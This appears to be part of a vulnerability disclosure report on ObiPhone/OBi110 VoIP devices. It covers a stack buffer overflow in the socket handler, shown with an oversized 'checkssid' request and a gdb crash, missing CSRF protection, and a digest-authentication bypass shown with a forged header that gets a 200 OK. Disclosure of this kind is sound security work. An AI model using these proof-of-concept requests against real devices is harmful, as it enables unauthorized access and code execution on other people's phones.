 ### Obi-4. Buffer overflow in internal socket handler

Commands to be executed by realtime backend process `obid` are sent via Unix domain sockets from obiapp.
In formatting the message for the Unix socket, a new string is constructed on
the stack.  This string can overflow the static buffer, leading to control of
program flow.  The only vectors leading to this code that were discovered during
the assessment were authenticated, however unauthenticated code paths may exist.
Note that the example command can be executed as the lower-privileged "user"
user.

    GET /wifi?checkssid=[A*1024] HTTP/1.1
    Host: foo
    Authorization: [omitted]

    (gdb) 
    #0  0x41414140 in ?? ()
    #1  0x0006dc78 in ?? ()

### Obi-5. Cross-site request forgery

All portions of the web interface appear to lack any protection against
Cross-Site Request Forgery.  Combined with the command injection vector in
ObiPhone-3, this would allow a remote attacker to execute arbitrary shell
commands on the phone, provided the current browser session was logged-in to the
phone.

### Obi-6. Failure to implement RFC 2617 correctly

RFC 2617 specifies HTTP digest authentication, but is not correctly implemented
on the ObiPhone.  The HTTP digest authentication fails to comply in the
following ways:

- The URI is not validated
- The application does not verify that the nonce received is the one it sent
- The application does not verify that the nc value does not repeat or go
    backwards

    GET / HTTP/1.1
    Host: foo
    Authorization: Digest username="admin", realm="a", nonce="a", uri="/",
    algorithm=MD5, response="309091eb609a937358a848ff817b231c", opaque="", qop=auth,
    nc=00000001, cnonce="a"
    Connection: close

    HTTP/1.1 200 OK
    Server: OBi110
    Cache-Control:must-revalidate, no-store, no-cache
    Content-Type: text/html
    Content-Length: 1108
    Connection: close

Please note that the realm, nonce, cnonce, and nc values have all been chosen
and the response generated offline.
